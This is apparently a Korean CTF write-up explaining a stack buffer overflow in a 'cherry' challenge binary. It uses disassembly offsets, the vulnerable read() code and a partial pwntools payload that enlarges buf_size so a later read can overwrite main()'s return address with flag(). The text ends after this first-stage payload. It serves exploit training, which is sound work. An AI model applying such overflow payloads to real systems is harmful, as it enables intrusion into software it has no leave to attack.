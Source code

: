 - 스택 버퍼 오버플로우까지는 가능하지만, `fruit` , `buf` 의 주소와 `buf_size` 를 비교했을 때 `main()` 의 Return Address를 덮어쓰는 것은 불가능하다.

```jsx
0x000000000040131f <+33>:    mov    DWORD PTR [rbp-0x12],0x72656863 // fruit
0x0000000000401326 <+40>:    mov    WORD PTR [rbp-0xe],0x7972
...
0x000000000040136d <+111>:   lea    rax,[rbp-0x18] // buf
```

- 64비트 아키텍처이므로 Return Address는 `rbp + 0x8` 에 존재할 것이다.
    - Stack Frame 관련 내용
- `rbp` 와 가장 가까운 배열은 `rbp - 0x12` 에 위치한 `fruit` 이다.
    - `rbp - 0x12` 에서 `0x10` 만큼 입력을 받아도, `rbp - 0x2` 이다. → `rbp + 0x8` 에 도달 불가능

- 이를 해결하기 위해 `buf_size` 의 값을 조작하였다.

```jsx
0x000000000040131f <+33>:    mov    DWORD PTR [rbp-0x12],0x72656863 // fruit
0x0000000000401326 <+40>:    mov    WORD PTR [rbp-0xe],0x7972
0x000000000040132c <+46>:    mov    DWORD PTR [rbp-0xc],0x10 // buf_size
...
0x000000000040136d <+111>:   lea    rax,[rbp-0x18] // buf
```

- 해당 바이너리는 `buf` 에 입력을 먼저 받은 후, `fruit` 배열에 입력을 받는다.
- `buf` 를 이용한 스택 버퍼 오버플로우 공격으로 `buf_size` 를 덮어쓴 후, `fruit` 에 입력을 받을 때 `main()` 의 Return Address를 조작하면 될 것이다.
    - `rbp - 0x18` + `0x10` = `rbp - 0x8` 이고, `rbp - 0x18` ~ `rbp - 0x8` 에 `buf_size` 가 존재한다.
    - 즉, `buf` 를 이용한 스택 버퍼 오버플로우 공격으로 `buf_size` 를 조작할 수 있다.
    - `buf_size` - `buf` = `rbp - 0xc` - `rbp - 0x18` = `0xc`

- 첫 `read()` 에서 `buf` 문자열을 이용하여 `buf_size` 를 조작한 후, 다음 `read(stdin_fd, fruit, buf_size);` 에서 `main()` 의 Return Address를 `flag()` 로 조작하면 된다.

## 구현

---

- 첫 `read()` 함수는 `buf` 에 `0x10` 만큼 입력을 받는다.
- 그 후, `strncmp()` 함수를 통해 `buf` 문자열의 첫 6바이트가 “cherry”인지 검사한다.

```jsx
 write(stdout_fd, "Menu: ", 6);
 read(stdin_fd, buf, buf_size);
 if(!strncmp(buf, "cherry", 6)) {
     write(stdout_fd, "Is it cherry?: ", 15);
     read(stdin_fd, fruit, buf_size);
 }
```

- “cherry” 문자열을 첫 6바이트로 설정하고, `buf + 0xc` 위치에 큰 수를 넣는다.
    - `buf + 0xc` 에는 `buf_size` 가 위치해있다.

```jsx
payload = str('cherry').encode() + b'A'*6 + b'\x50'
p.sendafter(b'Menu: ', payload)
```
